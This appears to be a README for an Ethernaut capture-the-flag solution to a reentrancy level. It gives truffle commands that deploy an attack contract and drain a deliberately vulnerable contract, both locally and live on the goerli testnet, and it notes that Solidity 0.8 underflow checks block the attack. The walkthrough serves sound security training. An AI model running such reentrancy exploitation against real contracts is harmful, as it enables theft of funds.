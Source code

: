 # Reentrancy

[Reentrancy](https://ethernaut.openzeppelin.com/level/0x573eAaf1C1c2521e671534FAA525fAAf0894eCEb)

_Steal all the funds from the contract._

The solidity version of the vulnerable contract is very important.
As from Solidity 0.8.x underflow protection was included. This effectively
blocks the attack. 

Specifically the withdraw() line:
```JS
balances[msg.sender] -= _amount;
```

Extra dependency:
```BASH
npm i @openzeppelin/contracts
```

<BR />

## Test Attack

```BASH
truffle develop
```

```JS
migrate

r1 = await Reentrance.deployed()
await r1.donate(accounts[1], {from: accounts[5], value: 12300})

attack = await Attack.deployed()
await attack.donate({value: 10000})
await web3.eth.getBalance(r1.address)
(await r1.balanceOf(accounts[1])).toString()
(await r1.balanceOf(attack.address)).toString()
await attack.withdraw(10000)

await web3.eth.getBalance(attack.address)
await web3.eth.getBalance(r1.address)
```

<BR />

## Live Attack

```BASH
truffle console --network goerli
```

```JS
r1 = await Reentrance.at("0x9C26748d6e0803A3094da1805b1579B7831E628C")
await web3.eth.getBalance(r1.address)

attack = await Attack.deployed()
sender = accounts[5]
await attack.donate({from: sender, value: 1E16})
await attack.withdraw("10000000000000000", {from: sender, gas: 100000})
```
